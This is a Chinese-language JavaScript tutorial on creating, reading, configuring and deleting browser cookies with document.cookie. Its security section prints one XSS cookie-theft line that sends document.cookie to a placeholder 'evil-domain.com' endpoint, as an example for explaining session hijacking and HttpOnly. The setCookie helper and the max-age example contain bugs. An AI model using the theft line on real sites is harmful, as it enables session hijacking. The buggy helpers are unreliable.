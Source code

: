 ## 概述
使用 `document.cookie` 属性来创建 、读取、及删除 cookie。  
匹配到当前域名（domain）和路径（path）的未过期cookie会附加到当前页面的所有请求的请求头中。

**注意**：`AJAX（XHR2）`可通过设置`xhr.withCredentials = true`以及服务器端配合设置`header("Access-Control-Allow-Credentials: true")`来支持跨域发送cookies

### 屏蔽请求中携带cookie
- 将静态资源放在不同域或子域下
- ajax请求路径在不同域或子域下

### 安全
**路径限制并不能阻止从其他路径访问cookie**。使用简单的DOM即可轻易地绕过限制(比如创建一个指向限制路径的, 隐藏的`iframe`, 然后访问其 `contentDocument.cookie` 属性). 保护cookie不被非法访问的唯一方法是将它放在另一个域名/子域名之下, 利用同源策略保护其不被读取。  

Web应用程序通常使用cookies来标识用户身份及他们的登录会话。 因此通过窃听这些cookie, 就可以劫持已登录用户的会话。 窃听的cookie的常见方法包括社会工程和XSS攻击
```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
`HttpOnly` 属性可以阻止通过js访问cookie, 从而一定程度上遏制这类攻击

## 获取cookie
`document.cookie` 将以字符串的方式返回所有的 cookie 。格式如下：
```
cookie1=value; cookie2=value; cookie3=value;`
```

**获取指定的cookie值**：
```js
function getCookie(name){
    var cookies = document.cookie;
    var cookieName = encodeURIComponent(name) + '=';
    var cookieStart = document.cookie.indexOf(cookieName);
    var cookieValue = null;
    if (cookieStart > -1) {
        var cookieEnd = cookies.indexOf(';', cookieStart);
        if (cookieEnd == -1) {
            cookieEnd = cookies.length;
        }
        cookieValue = decodeURIComponent(cookies.substring(cookieStart + cookieName.length, cookieEnd));
    }
    return cookieValue;
}

// 通过正则获取cookie
function getCookie(name) {
    // (^| ) 以后面的字符或空格开始。
    // ([^;]*) 只匹配除了;号之外的所有字符。
    // (;|$) 匹配以;号或以前面的字符为结尾的字符。
    if (name && new RegExp("(^| )" + name + "=([^;]*)(;|$)").exec(document.cookie)){
        return decodeURIComponent(RegExp.$2);
    } 
}

```
## 新建或修改cookie
通过`document.cookie`重新赋值新建或修改cookie（并不会完全重写cookie，相当于添加操作）。  

**新建或修改cookie**：
```
document.cookie="name=paul";
```
### 可配置参数

**Expires**：    
为 cookie 添加一个过期时间（以 UTC 或 GMT 时间）。默认情况下，cookie 在浏览器关闭时删除
```
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT";
```
**Max-Age**：  
设置cookie的有效时长。单位：秒
```
// 设置cookie有效期一年
document.cookie="name=paul; max-age=365*24*60*60";
```

**Path**：  
设置cookie的路径。默认情况下，cookie 属于当前页面。
```
// 设置cookie属于根路径
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/";
```
**Domain**：
设置cookie的域名。默认为当前文档位置的路径的域名部分。
```
// 设置域名为 "*.a.com"
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/;domain=.a.com";
```
**Secure**：
设置cookie是否只通过https协议传输
```
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/;domain=.a.com;secure";
```
**HttpOnly**：阻止通过js访问cookie（一般由服务端设置）

```
document.cookie="name=paul; expires=Thu, 18 Dec 2013 12:00:00 GMT; path=/;domain=.a.com;secure;HttpOnly";
```

**设置或修改指定cookie**
```js
function setCookie(opts) {
    var name = opts.name;
    var value = opts.value;
    var expires = opts.expires; // 
    var path = opts.path;
    var domain = opts.domain;
    var secure = opts.secure;
    var cookieText = encodeURIComponent(name) + '=' + encodeURIComponent(value);
    if (expires) {
        switch (expires.constructor) {
        case Number: // 单位秒
          cookieText = expires === Infinity ? "; expires=Fri, 31 Dec 9999 23:59:59 GMT" : "; max-age=" + expires;
          break;
        case String:
          cookieText = "; expires=" + expires;
          break;
        case Date:
          cookieText = "; expires=" + expires.toUTCString(); // 或者 toGMTString()
          break;
        }
    }
    if (path) {
        cookieText += '; path=' + path;
    }
    if (domain) {
        cookieText += '; domain=' + domain;
    }
    if (secure) {
        cookieText += '; secure';
    }
    document.cookie = cookieText;
}
```

## 删除cookie
设置 expires 参数为以前的时间即可
```
document.cookie = "name=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
```
**注意**：
- 删除时不必指定 cookie 的值
- 如果要删除非当前路径下的cookie，需制定`path`参数

**删除指定cookie**
```js
function removeCookie(name) {
    document.cookie = name + "= ; expires=" + new Date(0);
}
```
**清楚所有cookie**
```js
function clearCookie(path,domain){
    // 获取所有cookie的key
    var keys = document.cookie.match(/(?!\s)([^;\=]+)(?=\=.*(;|$))/g);
    var forPath = path ? ";path=" + path : "";
    forPath += domain ? ";domain=" + domain : "";
    keys.forEach(function(item,index){
        document.cookie = item + "= ; expires=" + new Date(0) + forPath;
    });
}
```

**参考**：
- [MDN：cookie](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie)
- [菜鸟教程：cookie](http://www.runoob.com/js/js-cookies.html)
